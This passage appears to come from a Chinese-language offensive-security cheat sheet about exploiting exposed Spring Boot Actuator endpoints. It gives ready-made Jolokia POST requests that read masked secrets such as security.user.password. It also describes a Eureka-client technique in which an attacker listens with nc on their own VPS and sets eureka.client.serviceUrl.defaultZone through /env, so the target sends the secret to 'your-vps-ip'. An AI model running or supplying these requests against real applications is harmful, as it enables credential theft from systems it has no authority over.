- 调用 `org.springframework.cloud.context.environment` Mbean

>实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x
```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x
```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

- 调用其他 Mbean

>目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。

![](https://gitee.com/ryuzusunc/archives/raw/master/img/jolokia获取脱敏信息.png)

### netflix-eureka-client获取脱敏信息

**利用条件**

- 可以 GET 请求目标网站的 /env
- 可以 POST 请求目标网站的 /env
- 可以 POST 请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starter-actuator 依赖）
- 目标使用了 spring-cloud-starter-netflix-eureka-client 依赖
- 目标可以请求攻击者的服务器（请求可出外网）

**利用方法**

1. 找到想要获取的属性名

GET 请求目标网站的 /env 或 /actuator/env 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

2. NC监听HTTP请求

在自己控制的外网服务器上监听 80 端口：

```
nc -lvk 80
```

3. 设置 eureka.client.serviceUrl.defaultZone 属性

将下面 [http://value:${security.user.password}@your-vps-ip] 中的 `security.user.password` 换成自己想要获取的对应的星号 `*` 遮掩的属性名；

`your-vps-ip` 换成自己外网服务器的真实 ip 地址。

spring 1.x
```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip
```
